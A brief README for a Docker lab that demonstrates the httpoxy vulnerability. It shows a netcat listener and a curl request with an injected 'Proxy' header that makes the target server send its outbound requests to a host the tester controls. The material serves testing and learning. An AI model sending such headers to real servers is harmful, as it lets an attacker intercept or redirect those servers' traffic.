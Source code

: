 # httpoxy-vuln

Completely and utterly stolen from [php-fpm-httpoxy-poc](https://github.com/httpoxy/php-fpm-httpoxy-poc), however that proof of concept doesn't work out of the box and bending it to a testing end seemed all together decent.

## Steps

This is how the vulnerability works:

1. Send a header with 'Proxy: yourproxyserver:port' to a target
2. observe a CONNECT request in yourproxyserver:port tcp/http(s)

## Using this demo

Here is how you can see it in action:

1. rebuild and run the whole docker thing

    ```
    ./rebuild.sh
    ```

2. Start some sort of capturing proxy:

    `nc -l 12345`

3. test that the container running at 192.168.99.100, attempts to proxy out 192.168.0.6:12345...

    ```
    curl -H 'Proxy: 192.168.0.6:12345' 192.168.99.100
    ```



